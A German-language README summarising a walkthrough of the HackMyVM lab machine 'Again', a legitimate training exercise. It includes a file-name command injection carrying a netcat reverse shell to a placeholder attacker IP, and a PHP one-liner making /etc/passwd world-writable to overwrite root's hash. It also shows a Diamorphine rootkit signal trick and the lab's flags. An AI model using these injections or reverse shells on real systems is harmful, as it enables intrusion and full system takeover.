 # Again - HackMyVM Lösungsweg

![Again VM Icon](Again.png)

Dieses Repository enthält einen Lösungsweg (Walkthrough) für die HackMyVM-Maschine "Again".

## Details zur Maschine & zum Writeup

*   **VM-Name:** Again
*   **VM-Autor:** DarkSpirit
*   **Plattform:** HackMyVM
*   **Schwierigkeitsgrad (laut Writeup):** Schwer (Hard)
*   **Link zur VM:** [https://hackmyvm.eu/machines/machine.php?vm=again](https://hackmyvm.eu/machines/machine.php?vm=again)
*   **Autor des Writeups:** DarkSpirit
*   **Original-Link zum Writeup:** [https://alientec1908.github.io/Again_HackMyVM_Hard/](https://alientec1908.github.io/Again_HackMyVM_Hard/)
*   **Datum des Originalberichts:** 18. Oktober 2022

## Verwendete Tools (Auswahl)

*   `arp-scan`
*   `vi`
*   `nmap`
*   `gobuster`
*   `curl`
*   `wget`
*   Burp Suite (impliziert für Upload-Manipulation)
*   `nc` (netcat)
*   `python3`
*   `stty`
*   `find`
*   `getcap`
*   `php7.4` (auf dem Ziel)
*   `chmod`
*   `openssl` (für Passworterstellung)
*   `nano`
*   `su`
*   Standard Linux-Befehle (`id`, `ls`, `cat`, `cd`, `kill`)

## Zusammenfassung des Lösungswegs

Das Folgende ist eine gekürzte Version der Schritte, die unternommen wurden, um die Maschine zu kompromittieren, basierend auf dem bereitgestellten Writeup.

### 1. Reconnaissance (Aufklärung)

*   Die Ziel-IP `192.168.2.156` wurde mittels `arp-scan -l` identifiziert.
*   Der Hostname `hack.hmv` wurde der IP `192.168.2.156` in der `/etc/hosts`-Datei des Angreifers zugeordnet.
*   Ein `nmap`-Scan ergab offene Ports:
    *   **Port 22/tcp (SSH):** OpenSSH 7.9p1 Debian 10+deb10u2.
    *   **Port 80/tcp (HTTP):** Nginx 1.14.2.
    *   Nmap stürzte am Ende mit einem Segmentation Fault ab, lieferte aber vorher die Ergebnisse.

### 2. Web Enumeration & Hint Discovery

*   Im Quellcode der Webseite (Port 80) wurde ein HTML-Kommentar gefunden: ``.
*   `gobuster` fand `index.html` und `upload.php`.
*   Manuelle Tests und Burp Suite zeigten, dass `upload.php` PHP-Dateien blockierte, aber ein Upload mit doppelter Endung (`.php.jpg`) und manipuliertem `Content-Type` (`image/jpg`) erfolgreich war ("File uploaded").
*   Basierend auf dem HTML-Kommentar wurde `http://192.168.2.156/upload.bck` heruntergeladen.
*   **Analyse von `upload.bck` (Quellcode von `upload.php`):**
    *   Das Skript akzeptierte nur `image/jpeg` oder `text/plain`.
    *   **Kritische Schwachstelle:** Es verwendete den vom Benutzer angegebenen Originaldateinamen (`$_FILES['myFile']['name']`) als Zielpfad für `copy()` und **direkt in einem `shell_exec()`-Aufruf** (`base64 [filename]` für JPGs, `cat [filename]` für TXTs).
    *   Eine unvollständige Blacklist für Sonderzeichen im Dateinamen verhinderte Command Injection nicht.

### 3. Initial Access (RCE via Filename im Upload)

1.  **Vorbereitung des Exploits:**
    *   Ein Netcat-Listener wurde auf der Angreifer-Maschine gestartet (z.B. `nc -lvnp 444`).
    *   Ein bösartiger Dateiname wurde konstruiert, der eine Reverse Shell enthält, z.B. `";nc -e /bin/bash ANGREIFER_IP 444;#.jpg"`.
2.  **Ausnutzung der Schwachstelle:**
    *   Eine Dummy-Datei (z.B. `dummy.jpg`) wurde mit dem bösartigen Dateinamen und `Content-Type: image/jpeg` an `upload.php` gesendet (z.B. mit `curl`).
3.  **Reverse Shell als `www-data`:**
    *   Der Server führte den im Dateinamen eingebetteten `nc`-Befehl aus.
    *   Eine Reverse Shell verband sich zum Listener des Angreifers.
    *   Die Shell wurde mit Python PTY und `stty` stabilisiert. Der Hostname des Zielsystems war `hacked`.

### 4. Privilege Escalation (kerszi -> root)

Zwei Wege zu Root-Rechten wurden identifiziert:

#### Weg 1: Diamorphine Rootkit

1.  **Rootkit-Entdeckung:**
    *   Durch Auflisten der Kernelmodule (`ls /sys/module/`) und Vergleich mit einer Baseline wurde das LKM-Rootkit **`Diamorphine`** identifiziert.
2.  **Ausnutzung des Rootkits:**
    *   Durch Senden des Signals 64 an den Prozess mit PID 1 (`kill -64 1`) wurden Root-Rechte erlangt.
    *   `id` bestätigte `uid=0(root)`.

#### Weg 2: Missbrauch der `cap_fowner` Capability (alternativ oder später entdeckt)

1.  **Capability-Entdeckung:**
    *   `getcap -r / 2>/dev/null` zeigte, dass `/usr/bin/php7.4` die Capability **`cap_fowner=ep`** gesetzt hatte.
    *   Diese Capability erlaubt es dem Prozess, den Eigentümer beliebiger Dateien zu ändern.
2.  **Ausnutzung der Capability:**
    *   Mit PHP wurde `/etc/passwd` für alle schreibbar gemacht (vermutlich war `chown` beabsichtigt, aber `chmod 0666` funktionierte):
        `php7.4 -r 'chmod("/etc/passwd", 0666);'`
    *   Ein neuer Passworthash für ein beliebiges Passwort (z.B. `benni1908`) wurde mit `openssl passwd -1 benni1908` generiert.
    *   Der Passworthash des `root`-Benutzers in `/etc/passwd` wurde mit `nano` durch den neu generierten Hash ersetzt.
    *   Mittels `su root` und dem neuen Passwort (`benni1908`) wurden Root-Rechte erlangt.

*(Hinweis: Der Writeup erwähnt auch SSH-Versuche mit einem Benutzer "kerszi" und SSH-Schlüssel, die jedoch nicht direkt zum initialen Zugriff oder zur Privilegienerweiterung auf diesem Pfad führten, sondern eher als alternative Enumerationsschritte erschienen. Der direkte Weg zur RCE war der Dateinamen-Exploit.)*

### 5. Flags

*   **User-Flag (Pfad nicht exakt spezifiziert, vermutlich `/home/kerszi/user.txt` oder `/home/h4x0r/user.txt`):**
    ```
    HMVimthabesthacker
    ```
*   **Root-Flag (Pfad nicht exakt spezifiziert, vermutlich `/root/r00t.txt` oder `/root/root.txt`):**
    ```
    HMVhackingthehacker
    ```

## Haftungsausschluss (Disclaimer)

Dieser Lösungsweg dient zu Bildungszwecken und zur Dokumentation der Lösung für die "Again" HackMyVM-Maschine. Die Informationen sollten nur in ethischen und legalen Kontexten verwendet werden, wie z.B. bei CTFs und autorisierten Penetrationstests.

